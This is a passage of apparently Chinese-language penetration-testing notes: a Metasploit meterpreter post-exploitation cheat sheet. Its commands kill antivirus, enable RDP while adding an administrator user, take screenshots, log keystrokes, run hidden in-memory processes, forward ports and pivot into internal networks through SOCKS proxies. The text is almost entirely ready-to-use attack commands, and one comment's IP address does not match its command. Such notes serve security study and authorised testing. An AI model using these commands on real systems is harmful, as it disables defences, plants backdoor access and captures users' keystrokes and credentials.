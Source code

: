 - 其它操作

    **关闭防病毒软件**
    ```bash
    run killav
    run post/windows/manage/killav
    ```

    **操作远程桌面**
    ```bash
    run post/windows/manage/enable_rdp # 开启远程桌面
    run post/windows/manage/enable_rdp username=test password=test # 添加远程桌面的用户(同时也会将该用户添加到管理员组)
    ```

    **截屏**

    `screenshot`

    **键盘记录**
    ```bash
    keyscan_start：开启键盘记录功能
    keyscan_dump：显示捕捉到的键盘记录信息
    keyscan_stop：停止键盘记录功能
    ```

    **执行程序**
    ```bash
    execute -f <path> [options] 在目标主机上执行 exe 文件
    -H：创建一个隐藏进程
    -a：传递给命令的参数
    -i：跟进程进行交互
    -m：从内存中执行
    -t：使用当前伪造的线程令牌运行进程
    -s：在给定会话中执行进程
    ```

- 端口转发和内网代理

    **portfwd**

    portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令的参数。
    ```bash
    portfwd add -l 2222 -r 1.1.1.1 -p 3389 # 将1.1.1.3的3389端口转发到本地的2222端口。
    -l：本地监听端口
    -r：内网目标的ip
    -p：内网目标的端口
    ```

    **pivot**

    pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测。
    ```bash
    route add 内网ip 子网掩码 session的id # 添加一个路由
    route print

    如果其它程序需要访问这个内网环境,就可以建立socks代理
    msf提供了3个模块用来做socks代理。
    auxiliary/server/socks4a
    auxiliary/server/socks5
    auxiliary/server/socks_unc
